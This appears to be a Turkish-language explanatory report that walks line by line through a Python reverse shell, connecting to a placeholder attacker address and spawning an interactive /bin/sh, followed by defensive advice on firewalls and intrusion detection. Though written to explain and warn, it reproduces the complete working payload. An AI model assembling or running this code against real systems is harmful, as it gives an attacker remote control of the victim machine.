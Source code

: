 (Kötü Niyetli Kullanılabilecek)Bir ters kabuk (reverse shell) bağlantısı kurmayı hedeflemektedir. İşte adım adım kodun ne yaptığını açıklayan bir rapor: 

1. Giriş
Kod, hedef bilgisayarda çalıştırıldığında, saldırganın kontrol ettiği bir makineye bağlantı kurarak bir komut kabuğu (shell) açar ve saldırganın bu kabuk üzerinden hedef bilgisayarı kontrol etmesine olanak tanır. Bu tür saldırılar genellikle yetkisiz erişim sağlamak ve sistemde kötü niyetli komutlar çalıştırmak için kullanılır.

2. Kod Analizi
2.1. Modül İçe Aktarma

import socket, subprocess, os
socket: Ağ bağlantıları kurmak için kullanılır.
subprocess: Yeni süreçler oluşturmak ve komutlar çalıştırmak için kullanılır.
os: İşletim sistemi ile ilgili işlevleri yerine getirmek için kullanılır.
2.2. Soket Oluşturma

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
socket.AF_INET: IPv4 adres ailesini kullanır.
socket.SOCK_STREAM: TCP bağlantı türünü kullanır.
2.3. Bağlantı Kurma


s.connect(("SALDIRI_HEDEF_IP", SALDIRI_HEDEF_PORT))
s.connect(): Saldırganın IP adresi (SALDIRI_HEDEF_IP) ve port numarası (SALDIRI_HEDEF_PORT) belirtilerek saldırganın kontrolündeki makineye bağlanılır.
2.4. Dosya Tanıtıcılarının Yönlendirilmesi


os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
os.dup2(): Hedef makinedeki standart giriş (stdin), standart çıkış (stdout) ve hata çıkışı (stderr) dosya tanıtıcıları, soket dosya tanıtıcısına (s.fileno()) yönlendirilir. Bu, saldırganın komutları doğrudan terminal üzerinden yürütmesine olanak tanır.
2.5. Kabuk Başlatma


p = subprocess.call(["/bin/sh", "-i"])
subprocess.call(): Yeni bir süreç başlatarak /bin/sh kabuğunu interaktif modda (-i) çalıştırır.
3. Özet
Amaç: Hedef bilgisayarda çalışan bu betik, saldırganın belirlediği bir IP ve port üzerinden bağlantı kurar ve hedef bilgisayarda bir komut kabuğu açar.
Fonksiyonellik: Saldırgan, bu bağlantı üzerinden hedef bilgisayara komutlar gönderebilir ve bu komutların çıktısını alabilir.
Güvenlik Riski: Bu tür ters kabuk bağlantıları, yetkisiz erişim ve kötü niyetli etkinlikler için kullanıldığından, ciddi bir güvenlik riski oluşturur. Bu nedenle, sistemlerin bu tür saldırılara karşı korunması ve şüpheli etkinliklerin izlenmesi önemlidir.
4. Sonuç
Bu tür saldırılar, sistem güvenliği açısından ciddi tehditler oluşturur ve bunlara karşı korunmak için güvenlik duvarları, izinsiz giriş tespit sistemleri (IDS), ve düzenli güvenlik taramaları gibi önlemler alınmalıdır.

